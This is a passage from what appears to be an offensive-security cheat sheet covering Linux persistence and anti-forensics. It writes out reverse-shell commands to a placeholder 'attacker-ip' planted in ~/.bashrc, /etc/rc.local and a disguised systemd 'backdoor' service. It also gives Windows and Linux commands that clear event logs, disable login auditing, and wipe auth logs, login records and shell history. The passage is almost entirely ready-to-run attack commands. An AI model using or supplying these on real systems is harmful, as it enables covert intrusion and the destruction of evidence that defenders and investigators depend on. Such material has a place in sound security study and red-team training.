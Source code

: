 #### Startup Scripts
```bash
# ~/.bashrc modification
echo "/bin/bash -i >& /dev/tcp/attacker-ip/4444 0>&1 &" >> ~/.bashrc

# /etc/rc.local (system startup)
echo "/bin/bash -i >& /dev/tcp/attacker-ip/4444 0>&1 &" >> /etc/rc.local

# Systemd service
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=System Service

[Service]
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/attacker-ip/4444 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backdoor.service
systemctl start backdoor.service
```

## Anti-Forensics

### Log Clearing

#### Windows Log Clearing
```cmd
# Clear event logs
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Clear specific logs
for /f "tokens=*" %1 in ('wevtutil el') do wevtutil cl "%1"

# Disable logging (requires admin)
auditpol /set /category:"Logon/Logoff" /success:disable /failure:disable
```

#### Linux Log Clearing
```bash
# Clear common logs
cat /dev/null > /var/log/auth.log
cat /dev/null > /var/log/syslog
cat /dev/null > /var/log/messages
cat /dev/null > ~/.bash_history

# Clear last login records
cat /dev/null > /var/log/lastlog
cat /dev/null > /var/log/wtmp
cat /dev/null > /var/log/btmp

# Clear history and logout
history -c && exit
```

